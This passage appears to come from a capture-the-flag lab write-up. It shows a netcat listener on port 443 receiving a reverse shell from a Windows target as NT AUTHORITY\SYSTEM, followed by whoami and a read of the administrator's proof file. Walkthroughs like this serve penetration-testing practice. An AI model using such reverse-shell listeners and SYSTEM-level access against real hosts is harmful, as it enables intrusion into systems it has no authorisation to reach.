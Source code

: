 And... we get a shell back as `NT AUTHORITY\SYSTEM`:

```
# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.116] 49709
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type c:\users\administrator\desktop\proof.txt
type c:\users\administrator\desktop\proof.txt
5737DD...
```
